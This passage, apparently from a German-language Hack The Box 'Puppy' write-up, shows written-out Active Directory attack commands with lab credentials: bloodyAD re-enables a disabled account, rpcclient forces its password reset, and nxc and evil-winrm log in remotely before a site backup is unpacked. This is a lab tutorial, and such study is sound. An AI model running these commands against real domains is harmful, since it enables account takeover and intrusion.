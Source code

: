 führt eine **post-exploitation LDAP-Analyse** mit `bloodyAD` durch und filtert gezielt **objektspezifische Schreibrechte im Active Directory**, um potenzielle **Privilege Escalation-Ziele** zu finden.

```hlt:1,STATUS_ACCOUNT_DISABLED
nxc smb xx.xx.xx.xx -u 'ADAM.SILVER' -p 'Password@987' -d PUPPY.HTB
SMB    xx.xx.xx.xx    445    DC    [-] PUPPY.HTB\ADAM.SILVER:Password@987 STATUS_ACCOUNT_DISABLED
```

```hlt:1
bloodyAD --host dc.puppy.htb -d puppy.htb -u ant.edwards -p Antman2025! remove uac 'ADAM.SILVER' -f ACCOUNTDISABLE
```
führt mit dem Tool **`bloodyAD`** eine **Änderung am Benutzerkonto `ADAM.SILVER`** im Active Directory durch – und zwar gezielt an dessen **UserAccountControl (UAC)**-Attribut.

```hlt:1
rpcclient -U 'puppy.htb\ant.edwards%Antman2025!' xx.xx.xx.xx -c "setuserinfo ADAM.SILVER 23 Password@987"
```

nutzt das Tool `rpcclient`, um **per Remote Procedure Call (RPC)** einen **Passwortwechsel für das Benutzerkonto `ADAM.SILVER`** im Active Directory auszuführen.

Alternativ:

```hlt:1
rpcclient -U 'puppy.htb\Ant.Edwards%Antman2025!' xx.xx.xx.xx 
rpcclient $>  setuserinfo ADAM.SILVER 23 Password@987
```
```hlt:1
nxc winrm xx.xx.xx.xx -u 'ADAM.SILVER' -p 'Password@987' -d PUPPY.HTB
```

**==Credentials: ADAM.SILVER : Password@987==**

## Accessing as adam.silver and Finding the User Flag

```hlt:1
evil-winrm -i xx.xx.xx.xx -u 'ADAM.SILVER' -p 'Password@987' 
```
## Exploring for Further Privilege Escalation

## Analyzing the Site Backup

```hlt:1,nms:auth-config.xml.bak
unzip site-backup-2024-12-30.zip
Archive:  site-backup-2024-12-30.zip
  inflating: puppy/nms-auth-config.xml.bak  
  inflating: puppy/images/banner.jpg  
  inflating: puppy/images/jamie.jpg  
  inflating: puppy/images/antony.jpg  
  inflating: puppy/images/adam.jpg   
  inflating: puppy/images/Levi.jpg   
  inflating: puppy/assets/js/jquery.scrolly.min.js  
  inflating: puppy/assets/js/util.js  
  inflating: puppy/assets/js/breakpoints.min.js  
  inflating: puppy/assets/js/jquery.min.js  
  inflating: puppy/assets/js/main.js  
  inflating: puppy/assets/js/jquery.dropotron.min.js  
  inflating: puppy/assets/js/browser.min.js  
  inflating: puppy/assets/webfonts/fa-regular-400.eot  
  inflating: puppy/assets/webfonts/fa-solid-900.svg  
  inflating: puppy/assets/webfonts/fa-solid-900.ttf  
  inflating: puppy/assets/webfonts/fa-solid-900.woff2  
  inflating: puppy/assets/webfonts/fa-brands-400.svg  
  inflating: puppy/assets/webfonts/fa-solid-900.woff  
  inflating: puppy/assets/webfonts/fa-solid-900.eot  
```